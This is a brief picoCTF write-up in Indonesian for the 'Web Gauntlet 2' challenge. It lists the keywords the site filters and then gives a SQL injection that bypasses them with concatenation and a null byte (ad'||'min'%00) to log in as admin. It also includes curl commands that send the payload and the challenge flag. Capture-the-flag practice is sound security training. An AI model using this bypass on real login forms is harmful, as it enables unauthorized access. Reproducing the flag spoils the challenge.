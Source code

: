 <h1>Web Gauntlet 2</h1>
<h3>Description</h3>
<pre>
This website looks familiar... Log in as admin Site: <a href='http://mercury.picoctf.net:61434/'>Chall</a> <a href='http://mercury.picoctf.net:61434/filter.php'>Filter</a>
</pre>
<h3>Solution</h3>

<p>Pada halaman filter.php : or and true false union like = > < ; -- /* */ admin</p>
<p>Disana tidak terdapat filter untuk null byte, untuk sqlite /0 atau %00 juga dianggap akhir dari query</p>
<pre>
Injection

user : ad'||'min'%00
pass : 123
</pre>
<p>Lakukan request dengan burpsuite atau dengan curl command, jangan lupa dengan cookie yang sama</p>

<pre>
curl -X POST -d "user=ad'||'min'%00&pass=123" http://mercury.picoctf.net:61434/ --cookie "PHPSESSID=1gsae0u6qh3uiv1htiiv1bj7mo" --output -
</pre>

dan curl ke filter.php

<pre>
curl -X GET http://mercury.picoctf.net:61434/filter.php --cookie "PHPSESSID=1gsae0u6qh3uiv1htiiv1bj7mo" --output -
</pre>
<h3>Flag</h3>
<pre>
picoCTF{0n3_m0r3_t1m3_b55c7a5682db6cb0192b28772d4f4131}
</pre>

